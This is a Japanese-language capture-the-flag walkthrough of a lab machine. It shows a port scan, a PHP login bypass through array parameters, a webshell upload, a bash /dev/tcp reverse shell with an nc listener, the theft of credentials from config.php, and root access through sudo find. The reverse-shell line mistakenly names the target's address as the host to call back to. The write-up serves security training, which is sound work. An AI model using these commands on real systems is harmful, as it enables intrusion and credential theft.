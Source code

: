 4,# 1.Port Scan 
対象マシンのポートをスキャン
ip=10.129.95.184

`nmap -sV -sC $ip`

![dd33300f97dcf6df4b43a40ea90dc30b.png](../_resources/dd33300f97dcf6df4b43a40ea90dc30b.png)

スキャンしたHPにアクセスする

http://$ip

![ba7a54a06bae687f6ee0b21a301652d0.png](../_resources/ba7a54a06bae687f6ee0b21a301652d0.png)

Loginページを発見。

![b88bcc78934faab9a7d5768aaf375c95.png](../_resources/b88bcc78934faab9a7d5768aaf375c95.png)

login.php.swpを取得

`http://$ip/login/`

![1caf516eb0a748277fa81a85c765e045.png](../_resources/1caf516eb0a748277fa81a85c765e045.png)

ダウンロードしたlogin.php.swpを確認

`strings login.php.swp`

![ff55987b521462936e8a409aa6147819.png](../_resources/ff55987b521462936e8a409aa6147819.png)

tacコマンドで逆順に表示

片方がarrayなら条件に一致

`strings login.php.swp >> file.txt`

`tac file.txt` 

![cdeebd4405363303a76f0ae5b4f006d3.png](../_resources/cdeebd4405363303a76f0ae5b4f006d3.png)

# 2. Burpsuite

arrayに加工

![60935d983e1d46920fdf3f5baeec49df.png](../_resources/60935d983e1d46920fdf3f5baeec49df.png)

usernameとpasswordを修正

![77d19fe25e27c98937a9167e466c2ac8.png](../_resources/77d19fe25e27c98937a9167e466c2ac8.png)

ログイン成功

![99caefb61dca0c927b38e3aafcb11aa2.png](../_resources/99caefb61dca0c927b38e3aafcb11aa2.png)

HPへアクセス

![36c23cc1bfb0cdf82eee6b1e1bb56301.png](../_resources/36c23cc1bfb0cdf82eee6b1e1bb56301.png)

# 3. Reverse shell

テスト用のphpファイルの作成

`echo "<?php phpinfo(); ?>" > test.php`

![b333597232ffc3bb3168ae5983a707ed.png](../_resources/b333597232ffc3bb3168ae5983a707ed.png)

test.phpをアップロード

![4795044368ee555b25866ea39880ce11.png](../_resources/4795044368ee555b25866ea39880ce11.png)

`gobuster dir --url http://$ip/ --wordlist /usr/share/wordlists/dirb/big.txt`

gobusterを使い、アップロード先と推測される_uploadedディレクトリを発見

![71215a93c86f5a372ab1c50a89364f10.png](../_resources/71215a93c86f5a372ab1c50a89364f10.png)

アップロードしたtest.phpを確認

![730ae8e3d2b6b1895eae24df1fbf0b5a.png](../_resources/730ae8e3d2b6b1895eae24df1fbf0b5a.png)

アップロードしたtest.phpへアクセス
phpinfoが実行されている

![f9d39c59731445b71249713837192431.png](../_resources/f9d39c59731445b71249713837192431.png)

webshellを作成し、アップロードする

![dfb038b6938d6506ebfb67f346d23b48.png](../_resources/dfb038b6938d6506ebfb67f346d23b48.png)

webshell.phpを確認

![822a02ecf30ddcc14ba001a45cdb4a48.png](../_resources/822a02ecf30ddcc14ba001a45cdb4a48.png)

アクセスしたが空白

![7f4e3aa0e7e20970b2e71a3f85118dde.png](../_resources/7f4e3aa0e7e20970b2e71a3f85118dde.png)

URLを修正

http://$ip/_uploaded/shell.php/?cmd=id

![13188007128c90366253be295418b9af.png](../_resources/13188007128c90366253be295418b9af.png)

burpusuiteでinterseputを実行

![1aeef26121812d2ae75a12fa12deaa40.png](../_resources/1aeef26121812d2ae75a12fa12deaa40.png)

Repeaterに送る

![0de95549e1b86551e4d71764590628dc.png](../_resources/0de95549e1b86551e4d71764590628dc.png)

request methodを変更

![fd30fc38681018e0a1888c09fd5fe8b6.png](../_resources/fd30fc38681018e0a1888c09fd5fe8b6.png)

reverse shellを挿入

`cmd=/bin/bash -c 'bash -i >& /dev/tcp/$ip/12345 0>&1'`

![ec278acaf0994b56347c4d69c1fb6d58.png](../_resources/ec278acaf0994b56347c4d69c1fb6d58.png)

URLが理解できるようにエンコード

![5f3e67797cebe009323fb46121c3456f.png](../_resources/5f3e67797cebe009323fb46121c3456f.png)

# 4.Web Connect

ローカルサーバを立てる

`sudo nc -lnvp 12345` 

![fafc146a3d4a484e9309d057bc150282.png](../_resources/fafc146a3d4a484e9309d057bc150282.png)

reverseshellを実行

![9ba136a34dcf757881d3a45f47323066.png](../_resources/9ba136a34dcf757881d3a45f47323066.png)

user.txtを発見したが、
管理者権限が足りない

`cd /home/john`

`cat user.txt`

![42b7177b91d4b93b82001be9bf23d6e4.png](../_resources/42b7177b91d4b93b82001be9bf23d6e4.png)

webの場合/var/www/htmlにユーザ情報がある場合が多い
確認した結果、ユーザ情報を発見

`locate config.php`

`cd  /var/www/html/login/`

`cat config.php`

![075b93157a693e6a8f35a478b92f0b17.png](../_resources/075b93157a693e6a8f35a478b92f0b17.png)

# 5.Flag get

adminユーザでssh接続を試すが拒否される

![aedfe1a0a0d7530ff34da11c22cf96f4.png](../_resources/aedfe1a0a0d7530ff34da11c22cf96f4.png)

試しにjohnユーザで実行


![494a98419df421b52032e87b392ecc89.png](../_resources/494a98419df421b52032e87b392ecc89.png)

ログイン成功

![9ab47a49380da44d89d4ee8bc3196589.png](../_resources/9ab47a49380da44d89d4ee8bc3196589.png)

ユーザ情報を確認
user/bin/findをroot権限で実行できる事を確認

![6b0d398f9e8f1c3892aaebb076068c52.png](../_resources/6b0d398f9e8f1c3892aaebb076068c52.png)

webサイト「GTFOBins」で検索した結果
findからrootになるコマンドを発見

![7928c0c7eaf41dbc3d4349895983ef45.png](../_resources/7928c0c7eaf41dbc3d4349895983ef45.png)

![4ae66a80d2c085ebd6beb423033752c1.png](../_resources/4ae66a80d2c085ebd6beb423033752c1.png)

コマンドを実行。root権限を取得
root.txtとuser.txtを取得

`sudo find . -exec /bin/sh \; -quit`

`pwd`

`locate root.txt`

`cd /root`

`cat root.txt`

![ebb29a44455be23ef5a2b2c8314770e3.png](../_resources/ebb29a44455be23ef5a2b2c8314770e3.png)